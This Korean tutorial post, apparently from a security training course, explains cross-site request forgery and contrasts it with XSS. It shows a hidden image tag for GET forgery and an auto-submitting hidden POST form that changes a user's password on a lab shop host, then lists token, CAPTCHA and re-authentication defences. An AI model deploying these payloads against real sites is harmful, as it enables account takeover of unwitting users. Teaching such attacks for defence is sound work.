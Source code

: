```yaml
---
layout: post
title: CSRF
subtitle: Cross Site Request Forgery
categories: Basic
tags: [Web, Injection, Pentest]
---
```


**본 내용 및 실습 환경은 KISEC, 케이쉴드 주니어 교육 과정에 있음을 알려드립니다.**

## 정의

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179171240-596ab43c-2010-4802-8dd4-629fa67356e0.png">
</p>

크로스 사이트 요청 위조(Cross Site Request Forgery, CSRF)는 서버가 실제 서비스 페이지를 통한 정상요청인지 확인하지 않고 처리하는 경우 악의적인 스크립트를 이용하여 다른 사용자의 권한으로 중요기능 실행, 패스워드 변경 등의 공격을 할 수 있는 취약점이다.

즉, 사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위를 특정 웹사이트에 요청하게 하는 공격을 말한다.

* CSRF 공격는 **서버**대상으로 이루어진다.

## XSS와 CSRF의 차이점

* **XSS**는 공격대상이 **클라이언트**이고, 스크립트 실행이 목적이다. 인증된 세션 없이 공격이 가능하다.

* **CSRF**는 공격대상이 **서버**고, 특정 행위(패스워드 변경)가 목적이 된다. 반드시 인증된 사용자를 공격하므로, 인증된 세션이 필요하다는 차이가 있다.

## 실습

### 0. 실습 원리

가로 세로 크기가 1 또는 0인 **img 태그**를 삽입하면 사용자는 해당 이미지가 있는지 알 수가 없다.

HTML 문서를 먼저 주고받은 후에 사용자 측 브라우저에서 HTML 문서를 파싱하다가 **img 태그**를 화면에 출력하기 위해 **src 속성**의 공격자가 의도한 URL 요청을 보내는 원리이다.

### 1. GET 방식

게시물 이동 간에 GET 방식을 이용하여 이동하는 요청이 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179174494-dca955e1-775a-447d-9940-ad60efe866d1.png" width = 380>
</p>

* 우리는 게시물에 스크립트를 작성하여 요청을 위조할 것이다.

```html
<img src = "요청을 위조하고자 하는 사이트" width = "1" height = "1" />
```

위 내용을 게시물에 올리고 해당 게시물을 클릭하면 원래의 게시물이 보이는게 아닌 요청을 위조하고자 하는 사이트로 이동하게 될 것이다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179178908-61733b87-f683-4da0-bbab-efbd0fcf226e.png" width = 380>
</p>

* 이것은 게시물을 클릭하고 Burp Suite로 캡쳐한 것이다.
* 게시물에 해당 요청이 아닌 **GET 위조하고자 한 사이트**로 변경 된 것을 알 수 있다.

### 2. POST 방식

이번에는 게시물 클릭 이후 자동으로 공격자가 원하는 패스워드를 변경하는 방식으로 실습을 해볼 것이다.

패스워드 변경할 때 어떤 방식의 패킷이 움직이는 지 볼 것이다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179179788-c52c9684-85eb-4c90-b759-91455772f9ec.png" width = 380>
</p>

* POST 방식의 페이지 요청 값과, 파라미터가 어떻게 이루어지는지 알 수 있다.

```html
<iframe name="ifr"></iframe>
<form target="ifr" name = "frm" method="post"
action="http://10.200.165.9/demoshop/account/profile_edit_ok.asp">
    <input type="hidden" name="user_id" value="test">
    <input type="hidden" name="passwd" value="aa1122">
    <input type="hidden" name="passwd_q" value="%C1%C1%BE%C6%C7%CF%B4%C2+%BB%F6%B1%F2%C0%BA%3F">
    <input type="hidden" name="passwd_a" value="1">
    <input type="hidden" name="Name" value="%C3%BB%C3%BB%C3%BB">
    <input type="hidden" name="birth_yy" value="1911">
    <input type="hidden" name="birth_mm" value="11">
    <input type="hidden" name="birth_dd" value="11">
    <input type="hidden" name="birth_gbn" value="1">
    <input type="hidden" name="ismarry" value="1">
    <input type="hidden" name="address" value="%5B520-150%5D%26%23160%3B%C0%FC%B3%B2%26%23160%3B%B3%AA%C1%D6%BD%C3%26%23160%3B%C3%BB%B5%BF%26%23160%3B+111">
    <input type="hidden" name="tel1_2" value="1111">
    <input type="hidden" name="tel1_3" value="1111">
    <input type="hidden" name="whereTel1" value="1">
    <input type="hidden" name="hp1" value="">
    <input type="hidden" name="hp2" value="">
    <input type="hidden" name="hp3" value="">
    <input type="hidden" name="job" value="%B0%F8%B9%AB%BF%F8">
    <input type="hidden" name="email" value="1111%40naver.com">
    <input type="submit">
</form>
<script>
    document.frm.submit();
</script>
```

* 모든 매개변수와 공격자가 원하는 정보를 수정해서 해당 스크립트를 저장해두면 해당 게시물을 클릭했을 때, 사용자가 원하는 요청을 위조하여 패스워드가 변경되는 것이다.

## 보안 대책

1. 사용자가 요청한 내용이 위조된 요청인지 여부를 사용자 접근권한 정보가 포함된 토큰을 이용하여 세션정보에 포함된 토큰값과 요청에 포함된 토큰값의 비교를 통해 확인한다.
 
2. CAPCHA를 이용하여 추가적인 인증을 한다.
 
3. 사용자의 회원탈퇴, 정보수정에 비밀번호를 한번 더 요청한다.

